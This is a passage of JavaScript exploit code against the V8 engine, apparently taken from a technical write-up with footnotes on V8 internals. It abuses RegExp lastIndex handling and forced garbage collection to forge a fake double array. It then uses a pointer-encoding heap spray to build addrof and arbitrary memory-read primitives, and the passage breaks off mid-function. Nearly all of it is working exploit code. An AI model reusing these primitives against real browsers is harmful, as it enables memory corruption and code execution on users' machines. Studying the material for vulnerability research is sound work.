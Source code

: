 ```js
    re.lastIndex = n;
    delete re.exec;  // to pass `HasInitialRegExpMap` check and falls back to RegExp.prototype.exec to avoid infinite loop
    return [""];  // to get into `SetAdvancedStringIndex`
}
major_gc();  // major gc / mark and sweep: forces `re` to move into `OldSpace`
re[Symbol.replace]("", "l33t");
console.assert(re.lastIndex === n + 1);  // 1073741825 == 1073741824+1
RegExp.prototype.exec = exec_bak;  // restore original exec()

minor_gc();
major_gc();

var fakeobj = re.lastIndex;

// 3.6943954791292419e-311 = 0x000006cd0018ece1
// 0x0018ece1 is address of PACKED_DOUBLE_ELEMENTS map
// 0x000006cd is address of PACKED_DOUBLE_ELEMENTS property

// 0x00282301 is address of our fake double array element (could be any value, adjust to your needs)
// 0x00100000 is the length of our fake double array
// 2.2250738598067922e-308 = 0x0010000000282301

var spray = [
    3.6943954791292419e-311, 2.2250738598067922e-308,
    3.6943954791292419e-311, 2.2250738598067922e-308,
    3.6943954791292419e-311, 2.2250738598067922e-308,
    3.6943954791292419e-311, 2.2250738598067922e-308,
    3.6943954791292419e-311, 2.2250738598067922e-308,
    3.6943954791292419e-311, 2.2250738598067922e-308,
    3.6943954791292419e-311, 2.2250738598067922e-308,
    3.6943954791292419e-311, 2.2250738598067922e-308,
    3.6943954791292419e-311, 2.2250738598067922e-308,
    3.6943954791292419e-311, 2.2250738598067922e-308,
    3.6943954791292419e-311, 2.2250738598067922e-308,
];

var fakelen = 0x00100000n;
console.assert(BigInt(fakeobj.length) === fakelen >> 1n);
console.log(`[*] fakeobj double array with length = ${hex(fakeobj.length)}`);

var idx = 13;

var addrof_arr = [spray, 0];
eval("%DebugPrint(addrof_arr)")
let addrof_arr_el = 0x282299n;

function addrof(o) {
    spray[idx] = itof(addrof_arr_el | (fakelen << 32n));
    addrof_arr[0] = o;
    return lo(ftoi(fakeobj[0]));
}

function cread32(addr) {
    let el_addr = (BigInt(addr) - 0x8n) | 0x1n;
    spray[idx] = itof(el_addr | fakelen << 32n);
    return lo(ftoi(fakeobj[0]));
}

function cread64(addr) {
    let el_addr = (BigInt(addr) - 0x8n) | 0x1n;
    spray[idx] = itof(el_addr | fakelen << 32n);
```

[^wb]: <https://v8.dev/blog/concurrent-marking>
[^smi-range]: <https://medium.com/fhinkel/v8-internals-how-small-is-a-small-integer-e0badc18b6da>